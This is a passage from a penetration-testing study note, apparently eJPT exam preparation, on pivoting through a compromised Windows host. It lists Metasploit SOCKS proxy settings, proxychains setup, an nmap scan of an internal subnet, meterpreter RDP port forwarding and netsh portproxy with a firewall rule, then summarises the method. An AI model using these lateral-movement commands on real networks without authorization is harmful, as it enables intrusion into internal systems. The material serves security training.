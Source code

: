 ```
set SRVHOST 127.0.0.1
set SRVPORT 1080
set VERSION 5
run -j

# 4) Proxychains on Kali
echo "socks5 127.0.0.1 1080" | sudo tee -a /etc/proxychains4.conf
sudo sed -i 's/^#*proxy_dns/proxy_dns/' /etc/proxychains4.conf

# 5) Scan via pivot
proxychains -q nmap -sT -Pn -n -p 80,445,3389 10.10.20.0/24

# 6) Forward RDP (meterpreter)
portfwd add -L 127.0.0.1 -l 13389 -p 3389 -r 10.10.20.15
xfreerdp /v:127.0.0.1:13389

# 7) Windows netsh portproxy (optional)
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=8080 connectaddress=10.10.20.50 connectport=80
netsh advfirewall firewall add rule name="PortProxy8080" dir=in action=allow protocol=TCP localport=8080
```

# Summary

Pivoting enables you to use a compromised Windows host as a bridge into internal subnets. The standard eJPT approach is:
- Identify internal networks from the pivot,
- Add routes in Metasploit,
- Expose a SOCKS proxy and use proxychains for scanning,
- Forward individual ports you need to directly access (e.g., RDP/SMB).

When Metasploit isn’t an option or you need a lighter touch, Windows netsh portproxy, chisel, and plink provide reliable alternatives. Stay mindful of the limitations of SOCKS (no raw/ARP/ICMP), scan conservatively, and prioritize stability of your pivot.